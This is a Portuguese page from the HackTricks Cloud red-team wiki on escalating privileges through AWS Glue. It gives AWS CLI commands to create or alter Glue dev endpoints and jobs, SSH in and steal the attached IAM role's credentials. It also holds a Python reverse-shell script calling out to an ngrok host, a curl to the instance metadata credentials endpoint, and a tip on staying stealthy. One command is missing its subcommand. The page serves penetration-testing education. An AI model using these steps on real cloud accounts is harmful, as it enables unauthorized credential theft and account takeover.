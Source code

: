 # AWS - Escalação de Privilégios do Glue

{% hint style="success" %}
Aprenda e pratique Hacking na AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking na GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Usuários com essas permissões podem **configurar um novo ponto de desenvolvimento do AWS Glue**, **atribuindo uma função de serviço existente assumível pelo Glue** com permissões específicas a este ponto de extremidade.

Após a configuração, o **atacante pode acessar por SSH a instância do ponto de extremidade** e roubar as credenciais IAM da função atribuída:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Para fins de sigilo, é recomendado usar as credenciais IAM de dentro da máquina virtual Glue.

**Impacto Potencial:** Escalação de privilégios para a função de serviço Glue especificada.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Usuários com essa permissão podem **alterar um endpoint de desenvolvimento Glue existente** chave SSH, **habilitando o acesso SSH a ele**. Isso permite que o atacante execute comandos com os privilégios da função anexada ao endpoint:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Impacto Potencial:** Privesc para a função de serviço glue utilizada.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Usuários com **`iam:PassRole`** combinado com **`glue:CreateJob` ou `glue:UpdateJob`**, e também **`glue:StartJobRun` ou `glue:CreateTrigger`** podem **criar ou atualizar um trabalho AWS Glue**, anexando qualquer **conta de serviço Glue**, e iniciar a execução do trabalho. As capacidades do trabalho incluem a execução de código Python arbitrário, que pode ser explorado para estabelecer um shell reverso. Esse shell reverso pode então ser utilizado para exfiltrar as **credenciais IAM** da função anexada ao trabalho Glue, levando a um acesso ou ações não autorizadas com base nas permissões dessa função:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Impacto Potencial:** Privesc para a função de serviço do Glue especificada.

### `glue:UpdateJob`

Apenas com a permissão de atualização, um atacante poderia roubar as Credenciais IAM da função já anexada.

**Impacto Potencial:** Privesc para a função de serviço do Glue anexada.

## Referências

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
